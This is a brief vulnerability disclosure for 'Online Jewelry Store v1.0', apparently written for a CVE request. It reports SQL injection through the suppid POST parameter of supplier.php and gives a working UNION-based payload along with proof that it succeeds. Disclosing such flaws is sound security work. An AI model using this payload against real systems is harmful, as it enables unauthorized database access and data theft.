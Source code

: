 # Online Jewelry Store v1.0 has SQL injection

BUG_Author：likaiwen

Website source address: https://www.sourcecodester.com/php/14631/online-jewelry-store-php-full-source-code.html

Vulnerability File: /jewerly_0/supplier.php

Vulnerability location: /jewerly_0/supplier.php POST parameters suppid.

Payload: suppid=-1' union all select null,null,concat(0x75767778,0x616263),null,null-- -

The union query is successful, and the string "uvwxabc" appears as expected, which proves that there is a SQL injection vulnerability

![image](https://github.com/raozhir/CVERequest/blob/main/1.png)
